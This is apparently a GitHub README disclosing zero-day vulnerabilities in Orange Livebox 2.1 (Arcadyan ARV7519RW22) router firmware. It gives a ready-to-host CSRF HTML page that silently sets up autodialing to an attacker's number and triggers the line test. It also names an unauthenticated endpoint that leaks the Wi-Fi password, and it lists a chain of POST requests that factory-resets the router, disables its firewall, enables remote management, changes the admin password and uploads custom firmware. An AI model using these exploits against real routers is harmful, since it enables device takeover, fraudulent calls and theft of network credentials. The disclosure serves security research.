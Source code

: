 # LIVEBOX-0DAY
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting Latest frmware release on ORANGE Livebox 2.1 routers

```
Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02
```


**CWE-359**: *Exposure of Private Information ('Privacy Violation').*

A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's 	phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.


``` html
<!DOCTYPE html>

<!-- Phone number disclosure, reflected call exploit -->

<html>

<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
  <input type='hidden' name='autodialing_enable' value='1'>
  <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
  <input type='hidden' name='autodialing_timeout' value='0'>
  <input type='submit' value='Submit'>
</form>

<script>document.getElementById("csrf-form-invisible").submit()</script>

<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

</html>
```

When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call 		is answered the autodialing feature will call the attacker's number. 




**CWE-200**: *Information Exposure: Unauthenticated configuration information leak.*

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

``` html
	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>
```


**CWE-352**: *Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.*

```
Integrity Impact 	Complete (There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)  
Availability Impact 	Complete (There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)  
Access Complexity 	Low (Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )  
Authentication 		None. (The vulnerability does not require an attacker or user to be logged into the system).   
User interaction        None.  
```

	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




**CWE-912**: *Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators.*

` Manual firmware update. Allows malware to be installed as described before. ` 
	
	GET http://192.168.1.1/system_firmwarel.stm


---

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

**mapez** - [telegram](https://t.me/mapezz)
